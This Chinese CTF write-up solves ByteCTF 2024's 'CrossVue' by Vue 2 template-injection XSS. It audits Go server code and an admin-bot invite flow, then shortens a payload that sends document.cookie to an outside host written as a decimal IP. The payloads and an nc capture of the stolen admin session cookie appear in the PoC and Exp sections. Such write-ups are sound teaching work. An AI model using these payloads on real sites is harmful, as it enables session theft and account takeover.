


# 前言

通过[2024ByteCTF]CrossVue这一题来了解一下vue(v2 & v3)中的反射型xss

# 解题过程

## 分析

通过审计，看到有和`flag`相关的接口`/admin`，访问该接口时后台会从`session`中获取`uuid`字段，并用从数据库中查询`uuid`所对应用户的`username`，如果为admin则返回flag

```go
//route.go
r.GET("/admin", admin.CheckFlag)
//admin.go
func CheckFlag(c *gin.Context) {
	session := sessions.Default(c)
	uuidStr, exists := session.Get("uuid").(string)
	if !exists {
		c.HTML(http.StatusUnauthorized, "login.html", gin.H{
			"Error": "Unauthorized access. Please login.",
		})
		return
	}

	userUUID, err := uuid.Parse(uuidStr)
	if err != nil {
		c.HTML(http.StatusInternalServerError, "login.html", gin.H{
			"Error": "Error parsing UUID.",
		})
		return
	}

	user, err := db.GetUserByUUID(userUUID.String())
	if err != nil {
		c.HTML(http.StatusInternalServerError, "login.html", gin.H{
			"Error": "Failed to get user information.",
		})
		return
	}
	if user.Username == "admin" {
		c.HTML(http.StatusOK, "admin.html", gin.H{
			"Flag": config.Secret.Flag,
		})
	} else {
		c.JSON(http.StatusForbidden, gin.H{"error": "You are not an admin"})
	}
}
```


继续审计，发现普通用户在访问`/invite`接口时，后台会创建一个chrome浏览器以`admin`用户的身份去访问`/view?uuid= + user.UUID`接口

```go
//route.go
r.GET("/invite", middleware.Auth(), user.Invite)

//invite.go

func Invite(c *gin.Context) {
	user, err := middleware.GetUserFromSession(c)
	if err != nil {
		c.HTML(http.StatusInternalServerError, "login.html", gin.H{
			"Error": "Failed to get user information.",
		})
		return
	}

	url := "http://127.0.0.1:8080"
	loginURL := url + "/login"
	viewURL := url + "/view?uuid=" + user.UUID

	actx, acancel := chromedp.NewExecAllocator(context.Background())
	defer acancel()

	ctx, cancel := chromedp.NewContext(
		actx,
		chromedp.WithLogf(log.Printf),
	)
	defer cancel()

	ctx, cancel = context.WithTimeout(ctx, 30*time.Second)
	defer cancel()

	err = chromedp.Run(ctx,
		chromedp.Navigate(loginURL),
		chromedp.WaitVisible(`div.login-container`, chromedp.ByQuery),
		chromedp.SendKeys(`//div[contains(@class, "form-container")]//input[@type="text"]`, "admin", chromedp.BySearch),
		chromedp.SendKeys(`//div[contains(@class, "form-container")]//input[@type="password"]`, config.Secret.AdminPassword, chromedp.BySearch),
		chromedp.Click(`//button[contains(., 'Login')]`, chromedp.BySearch),
		chromedp.WaitVisible(`div.profile`, chromedp.ByQuery),
	)
	if err != nil {
		log.Printf("Failed to login: %v", err)
	}

	err = chromedp.Run(ctx,
		chromedp.Navigate(viewURL),
		chromedp.WaitVisible(`div.profile`, chromedp.ByQuery),
	)
	if err != nil {
		log.Printf("Failed to navigate to view: %v", err)
	}

	c.JSON(http.StatusOK, gin.H{"message": "Send invite successful"})
}
```

再来看看`/view`接口，访问该接口时后台会从数据库中查询`uuid`所对应用户的`username`和`profile`，并渲染到`view.html`当中，效果如下图

```go
//route.go
r.GET("/view", middleware.Auth(), user.View)

//view.go
func View(c *gin.Context) {
	uuid := c.Query("uuid")
	user, err := db.GetUserByUUID(uuid)
	if err != nil {
		c.HTML(http.StatusOK, "view.html", gin.H{
			"Username": "No User",
			"Profile":  "",
		})
		return
	}

	c.HTML(http.StatusOK, "view.html", gin.H{
		"Username": user.Username,
		"Profile":  user.Profile,
	})
}
```

```html
<!--view.html-->
<div id="app" class="container">
    <span @click="goBack" class="back-link"><i class="fas fa-arrow-left"></i></span>
    <div class="profile">
        <h1 class="username">{{.Username}}</h1>
        <p class="profile-info">{{.Profile}}</p>
    </div>
</div>
```



现在来看看用户的各个字段分别是什么。在`auth.go`中，可以看到注册时`username`密码只能由长度为3-12的字母数字下划线组成，`password`由8位以上的字母数字下划线组成，`profile`由80以内任意字符组成。

```go
//auth.go
func Register(c *gin.Context) {
	var registerInfo struct {
		Username string `json:"username"`
		Password string `json:"password"`
		Profile  string `json:"profile"`
	}

	if err := c.ShouldBindJSON(&registerInfo); err != nil {
		c.JSON(http.StatusBadRequest, gin.H{"error": err.Error()})
		return
	}

	usernameRegex := regexp.MustCompile(`^[a-zA-Z0-9_]{3,12}$`)
	passwordRegex := regexp.MustCompile(`^[a-zA-Z0-9_]{8,}$`)
	profileRegex := regexp.MustCompile(`^.{0,80}$`)

	if !usernameRegex.MatchString(registerInfo.Username) {
		c.JSON(http.StatusBadRequest, gin.H{"error": "Username must be 3-12 characters long and can only contain letters, numbers, and underscores."})
		return
	}

	if !passwordRegex.MatchString(registerInfo.Password) {
		c.JSON(http.StatusBadRequest, gin.H{"error": "Password must be at least 8 characters long and can only contain letters, numbers, and underscores."})
		return
	}

	if !profileRegex.MatchString(registerInfo.Profile) {
		c.JSON(http.StatusBadRequest, gin.H{"error": "Profile must not exceed 80 characters."})
		return
	}

	user := db.User{
		UUID:     uuid.New().String(),
		Username: registerInfo.Username,
		Password: utils.MD5(registerInfo.Password),
		Profile:  registerInfo.Profile,
	}

	err := db.CreateUser(&user)
	if err != nil {
		c.JSON(http.StatusInternalServerError, gin.H{"error": "Unable to create user"})
		return
	}

	c.Redirect(http.StatusFound, "/login")
}
```

分析到这里大概能想到是通过xss拿到admin的cookie来获取flag了

## 信息搜集

在各个`/tmplates/*.html`中都能看到引入了`vue@2.7.16`包

```html
<script src="https://cdn.jsdelivr.net/npm/vue@2.7.16"></script>
```
因为题目也暗示了和vue有关，直接google搜`vue xss`，可以看到下面列了一些payload，拿来试试

::github{repo="ViktorMares/vue-js-xss-payload-list"}

## PoC

随便注册一个`profile`值为`{{constructor.constructor('alert(1)')()}}`的用户看看，发现可行



换上xss盗取cookie的payload，长度为98，还需要再短一点

```js
{{constructor.constructor('var i=new Image();i.src="http://xxx.xxx.xxx.xxx/"+document.cookie')()}}
```

于是换成这个，长度为89

```js
{{_c.constructor('var i=new Image();i.src="http://xxx.xxx.xxx.xxx/"+document.cookie')()}}
```

尝试再短一点，长度为83，这里如果运气好一点vps的ip比较短的话就可以了，但是我们不靠运气

```js
{{_c.constructor('(new Image()).src="http://xxx.xxx.xxx.xxx/"+document.cookie')()}}
```

通过[把点分十进制ip转换成纯数字的ip](https://www.metools.info/other/ipconvert162.html)，这里我试了255.255.255.255(这个都行理论上没什么ip不行了)最后结果是4294967295，长度78，最后的payload如下

```js
{{_c.constructor('(new Image()).src="http://4294967295/"+document.cookie')()}}
```

## Exp

拿上面的payload随便注册一个用户，访问`/invite`接口，成功收到cookie

```bash
root@iZ7xv8mogva855e0yhraz6Z:~# nc -lvnp 80
listening on [any] 80 ...
connect to [172.28.228.144] from (UNKNOWN) [120.236.177.62] 35062
GET /session=MTcyNzE3MDcyNHxEWDhFQVFMX2dBQUJFQUVRQUFCQ180QUFBUVp6ZEhKcGJtY01CZ0FFZFhWcFpBWnpkSEpwYm1jTUpnQWtaRFV3WlRjeU9EWXRaVFUwTmkwME5qRmlMV0UzWXpNdE5tVXdNV1k0TmpreU5XVXp8UiFPE4W7KiVhtjeFHmGd8SWI3EjkfsYh1TJ_wrPgfog= HTTP/1.1
Host: x.x.x.x
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://127.0.0.1:8080/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

最后换上admin的cookie访问`/admin`接口即可

# 参考

- <https://github.com/ViktorMares/vue-js-xss-payload-list>
- <https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e>
- <https://cn.vuejs.org/guide/essentials/template-syntax#text-interpolation>
- <https://v2.cn.vuejs.org/v2/guide/syntax.html#%E6%96%87%E6%9C%AC>
- <https://stackoverflow.com/questions/71769586/what-is-constructor-constructor-in-javascript>
- <https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets>